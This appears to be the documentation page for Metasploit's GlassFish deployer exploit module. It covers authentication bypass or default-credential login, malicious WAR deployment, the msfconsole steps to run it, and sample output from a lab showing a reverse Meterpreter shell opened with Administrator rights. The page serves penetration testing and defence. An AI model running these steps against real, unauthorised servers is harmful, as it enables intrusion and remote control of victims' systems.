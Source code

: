 ## Description

This module logs in to an GlassFish Server (Open Source or Commercial) using various methods (such as authentication bypass, default credentials, or user-supplied login), and deploys a malicious war file in order to get remote code execution. It has been tested on Glassfish 2.x, 3.0, 4.0 and Sun Java System Application Server 9.x. Newer GlassFish versions do not allow remote access (Secure Admin) by default, but is required for exploitation.

## GlassFish

GlassFish is a open-source application server project started by Sun Microsystems for the Java EE platform and now sponsored by Oracle Corporation. The supported version is called Oracle GlassFish Server. GlassFish is free software, dual-licensed under two free software licences: the Common Development and Distribution License (CDDL) and the GNU General Public License (GPL) with the classpath exception.

## Verification Steps

1. Do: ```use exploit/multi/http/glassfish_deployer```
2. Do: ```set RHOST [IP]```
3. Do: ```set USERNAME [Username]```
4. Do: ```set PASSWORD [Password]```
5. Do: ```run```

## Sample Output

```
msf > use exploit/multi/http/glassfish_deployer
msf exploit(glassfish_deployer) > set RHOST 172.16.182.237
RHOST => 172.16.182.237
msf exploit(glassfish_deployer) > set USERNAME admin
USERNAME => admin
msf exploit(glassfish_deployer) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(glassfish_deployer) > exploit
[*] Started reverse TCP handler on 172.16.182.112:4444 
[*] Glassfish edition: GlassFish Server Open Source Edition 3.0.1
[*] Trying GlassFish authentication bypass..
[+] http://172.16.182.237:4848// - GlassFish - SUCCESSFUL authentication bypass
[*] Uploading payload...
[*] Successfully uploaded
[*] Executing /icDfejbl6Vc9ZobfgVv9LIBES/SV7fVtWuTQFZqtzMPiJ.jsp...
[*] Sending stage (30355 bytes) to 172.16.182.237
[*] Meterpreter session 1 opened (172.16.182.112:4444 -> 172.16.182.237:1472) at 2017-03-27 19:07:58 -0500
[*] Getting information to undeploy...
[*] Undeploying icDfejbl6Vc9ZobfgVv9LIBES...
[*] Undeployment complete.

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : juan-6ed9db6ca8
OS          : Windows 2003 5.2 (x86)
Meterpreter : java/java
meterpreter > exit
[*] Shutting down Meterpreter...

```
